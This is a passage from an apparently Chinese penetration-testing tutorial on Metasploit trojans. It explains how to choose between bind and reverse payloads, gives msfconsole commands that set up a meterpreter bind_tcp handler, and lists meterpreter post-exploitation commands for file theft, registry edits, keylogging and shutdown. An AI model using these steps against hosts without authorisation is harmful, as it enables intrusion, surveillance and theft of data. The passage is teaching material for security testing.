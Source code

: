 前面介绍了常用的payload，那么payload选择的三大要素如下：

    木马连接的方向
    目标操作系统及版本
    反弹的shell类型

木马连接方向：
msf木马分为正向连接与反向连接，正向连接适合攻击机能给连接目标机的情况，反向连接使用目标机能连接攻击机的情况，这里所说的连接一般是指tcp的某个端口。因此在生成木马前，需要先判断当前环境，适合正向连接木马还是反向连接的木马。（可以使用nc工具测试，详细参考：[【渗透神器系列】nc](https://thief.one/%2F2017%2F04%2F10%2F1%2F)）

目标操作系统类型查看：这个不说了！
操作系统位数查看：
{{< highlight shell >}}
getconf LONG_BIT
{{< /highlight >}}
反弹shell类型：
这个主要取决于反弹的shell的用途，一般执行系统命令的话普通操作系统的shell就够了。如果想要使用高级功能，比如：键盘记录，开启摄像头，添加路由等功能，可以使用meterpreter_shell。
### 连接木马

开启msf，启用exploit/multi/handler模块。
{{< highlight shell >}}
use exploit/multi/handler
set payload linux/x86/meterpreter/bind_tcp
show options
set RHOST 10.0.0.1
set LPORT 12345  
exploit
{{< /highlight >}}

![](https://cdn.wtfsec.org/img/20200223181206.jfif)

注意：这里set的payload跟生成木马使用的payload要一致，其余的参数根据选择的payload而填写。
## meterpreter shell

当我们拿到目标服务器的meterpreter_shell后，可以进行很多操作。
{{< highlight shell >}}
backgroud 将msf进程放到后台
session -i 1 将进程拖回前台运行
run vnc 远程桌面的开启
{{< /highlight >}}
文件管理功能：
{{< highlight shell >}}
Download     下载文件
Edit          编辑
cat           查看
mkdir         创建
mv            移动
rm            删除
upload        上传         
rmdir         删除文件夹
{{< /highlight >}}
网络及系统操作：
{{< highlight shell >}}
Arp          看ARP缓冲表
Ifconfig     IP地址网卡
Getproxy     获取代理
Netstat      查看端口链接
Kill         结束进程
Ps           查看进程
Reboot       重启电脑
Reg          修改注册表
Shell        获取shell
Shutdown     关闭电脑